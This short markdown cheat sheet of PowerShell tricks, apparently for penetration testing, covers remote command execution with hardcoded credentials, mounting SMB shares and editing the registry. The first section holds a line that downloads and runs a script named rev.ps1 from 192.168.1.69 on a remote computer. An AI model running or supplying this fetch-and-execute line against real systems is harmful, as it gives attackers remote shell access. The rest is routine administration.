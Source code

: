 # powershell tricks

## run powershell commands as another user with ps
```powershell
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\user', $pass)
hostname
invoke-command -Computer ComputerHostname -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

## mount smb share as drive "letter"
```powershell
New-PSDrive -Name "temp" -PSProvider "FileSystem" -Root "\\192.168.1.69\temp"
# with PSCredential
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\use1', $pass)
New-PSDrive -Name "temp" -PSProvider "FileSystem" -Credential $cred -Root "\\192.168.1.69\temp"
```

## browse and edit registry

### set registry values
```powershell
Set-ItemProperty -Path "HKLM:\Software\ContosoCompany" -Name "NoOfEmployees" -Value 823
Get-ItemProperty -Path "HKLM:\Software\ContosoCompany"
```

### read registry values
can also change the powershell "directory" to the registry like "cd HKLM:\"
```powershell
cd HKLM:\SYSTEM\CurrentControlSet\Services\
```
